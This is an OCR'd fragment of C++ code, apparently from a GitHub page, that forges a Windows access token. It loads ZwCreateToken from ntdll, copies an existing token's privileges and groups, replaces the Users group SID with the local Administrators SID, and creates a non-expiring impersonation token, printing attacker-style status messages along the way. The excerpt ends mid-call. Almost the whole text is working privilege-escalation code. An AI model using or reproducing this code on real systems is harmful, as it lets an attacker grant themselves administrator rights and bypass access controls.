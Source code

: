 ```c++
    SID_INTEGRITY IntegrityMediumSID = { 1, 1, SECURITY_MANDATORY_LABEL_AUTHORITY, SECURITY_MANDATORY_MEDIUM_RID };

    HANDLE hThread = NULL;

    ZwCreateToken = (_ZwCreateToken)GetProcAddress(LoadLibraryA("ntdll"), "ZwCreateToken");
    if (ZwCreateToken == NULL) {
        printf("[-] Failed to load ZwCreateToken: %d\n", GetLastError());
        return NULL;
    }
    wprintf(L"[*] ZwCreateToken function loaded.\n");
    pTokenUser = (PTOKEN_USER)GetTokenInfo(hToken, TokenUser);

    strcpy_s(tokenSource.SourceName, TOKEN_SOURCE_LENGTH, "User32");
    AllocateLocallyUniqueId(&tokenSource.SourceIdentifier);

    pTokenPrivileges = (PTOKEN_PRIVILEGES)LocalAlloc(LMEM_FIXED, sizeof(TOKEN_PRIVILEGES) + (sizeof(LUID_AND_ATTRIBUTES) * 4));
    pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);
    SetTokenPrivileges(pTokenPrivileges);
    pTokenGroups = (PTOKEN_GROUPS)GetTokenInfo(hToken, TokenGroups);
    pTokenPrimaryGroup = (PTOKEN_PRIMARY_GROUP)GetTokenInfo(hToken, TokenPrimaryGroup);
    pTokenDefaultDacl = (PTOKEN_DEFAULT_DACL)GetTokenInfo(hToken, TokenDefaultDacl);

    for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
    {
        if (pTokenGroups->Groups[i].Attributes & SE_GROUP_INTEGRITY)
        {
            memcpy(pTokenGroups->Groups[i].Sid, &IntegrityMediumSID, sizeof(IntegrityMediumSID));
            wprintf(L"[*] Set the token integrity level to medium.\n");
        }

        pSid = (PISID)pTokenGroups->Groups[i].Sid;
        if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
        {
            memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
            pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
            wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
        }
        else
        {
            pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_USE_FOR_DENY_ONLY;
            pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_ENABLED;
        }
    }

    pTokenOwner = (PTOKEN_OWNER)LocalAlloc(LPTR, sizeof(PSID));
    pTokenOwner->Owner = pTokenUser->User.Sid;

    ExpirationTime.HighPart = 0xFFFFFFFF;
    ExpirationTime.LowPart = 0xFFFFFFFF;

    Status = ZwCreateToken(
        &pElevatedToken,
        TOKEN_ALL_ACCESS,
        &objectAttributes,
        TokenImpersonation,
        &AuthenticationId,
        &ExpirationTime,
        pTokenUser,
        pTokenGroups,
        pTokenPrivileges,
        pTokenOwner,
```